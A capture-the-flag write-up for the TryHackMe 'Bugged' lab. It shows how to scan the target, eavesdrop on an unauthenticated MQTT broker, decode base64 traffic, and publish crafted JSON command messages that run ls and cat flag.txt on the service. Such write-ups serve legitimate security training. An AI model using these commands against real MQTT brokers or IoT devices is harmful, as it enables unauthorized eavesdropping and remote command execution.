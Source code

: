 # 📝 Writeup – Bugged (TryHackMe)

---

## ENUMERATION
Standard start — quick port sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found ports: `22`, `1883`. Focused scan:

```bash
nmap -p 22,1883 -sC -sV -vv -oN scan.nmap <IP>
```

![nmap](screenshots/nmap1.png)

---

## PORT 1883 — MQTT basics (short)

If you haven’t dealt with MQTT before — it’s simple:

* **Broker**: central server that routes messages.
* **Clients**: devices/apps that either **publish** (send) or **subscribe** (receive) to topics.
* Topics are hierarchical strings like `home/living/temperature`.
* Wildcards:

  * `#` subscribes to all topics at and below that level (everything).
  * `+` is single-level wildcard.

Install the tools:

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

---

## SUBSCRIBE & LISTEN

Subscribe to everything to see traffic:

```bash
mosquitto_sub -h <IP> -p 1883 -t '#' -v
```

* `-t '#'` = subscribe to all topics
* `-v` verbose

Screenshot of listening:
![mosquitto\_sub](screenshots/mosquitto_sub.png)

You’ll get messages like `topic payload`. One payload looked like base64. Decode it:

```bash
echo 'BASE64STRING' | base64 -d
```

Decoded payloads revealed a client ID and two topics:

* publisher: `U4vy....CHg/pub`
* subscriber: `XD2r....g0E/sub`

Looks like the service publishes on `U4vy.../pub` and reads commands on `XD2.../sub`.

---

## TALKING TO THE BROKER (PUBLISH)

We can publish to the `.../sub` topic to make the service respond on `.../pub`.

Example test message (raw):

```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}'
```     
![publish](screenshots/mosquitto_pub.png)    
If the service expects base64 or another wrapper, adjust accordingly. In my run, after decoding flows I learned the expected formats were something like ``base64({"id":"<id>", "cmd":"HELP, SYS or CMD", "arg":"<arg>"})``

After sending the correctly structured message (the challenge used base64-wrapped payloads in messages), I got this helpful reply:
![HELP](screenshots/HELP.png)

Decoded it (example):

```bash
# If payload was base64
echo 'RECEIVED_BASE64' | base64 -d
```

---

## GETTING THE FLAG

I sent a `CMD` to run `ls` and then `cat flag.txt`. Example:
```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"ls"}' | base64
```
```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '<base64>'
```   


Response (base64 or raw) arrives on the `.../pub` topic. Decode and enjoy the flag:
![flag](screenshots/flag.png)

---

## Notes, corrections & tips

* MQTT default port is **1883** (unencrypted); authenticated/secure brokers may use TLS/8883.
* You may encounter base64 wrapping, JSON, or custom framing — always inspect decoded payloads carefully.
* If you get weird characters after base64 decode, try trimming non-base64 chars or re-check the exact payload (some services add noise).
* If the service requires a particular client ID or QoS, `mosquitto_pub` supports `-i <clientid>` and `-q <qos>`.

---

## References / Further reading

* A helpful writeup on MQTT and pentesting: [https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5](https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5)
  (Useful background if you want to dig deeper into MQTT attack vectors.)

---

## Ethics & disclaimer

Do this only on lab machines or assets you have permission to test. Don’t be careless with devices that talk to real hardware — you can break things.

---
